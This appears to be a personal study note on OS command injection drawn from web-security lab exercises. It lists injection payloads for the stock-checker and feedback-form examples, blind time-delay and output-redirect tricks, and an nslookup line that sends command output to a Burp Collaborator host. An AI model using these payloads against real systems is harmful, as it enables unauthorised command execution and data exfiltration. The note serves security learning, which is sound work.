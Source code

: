 ## Basic

- <mark style="background: #CACFD9A6;">stock checker</mark> accesses the information via this URL:
  > `https://insecure-website.com/stockStatus?productID=381&storeID=29` 
  > -> it will call out a shell command like this : `stockreport.pl 381 29`

-  `& echo aiwefwlguh &` => `stockreport.pl & echo aiwefwlguh & 29`
-  `1|whoami` => name of the current user

# Blind

- <mark style="background: #CACFD9A6;">site feedback</mark> -> user enters email address and the feedback message -> calls out to the `mail` program: 
  > `mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com` 
- => *the output not returned in the application's response*.
## using time delays

> **`email` parameter**: `email=x||ping+-c+10+127.0.0.1||` => 10sec delay
## by redirecting output

> **`email` parameter**: `email=||whoami>/var/www/images/output.txt||` 
> **`filename` parameter**: `filename=output.txt` => response contains the output
## by using out-of-band (OAST)

- ex1:
> **`email` parameter**: `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
- ex2:
> **`email` parameter**: `email=||nslookup+$(whoami).BURP-COLLABORATOR-SUBDOMAIN||`
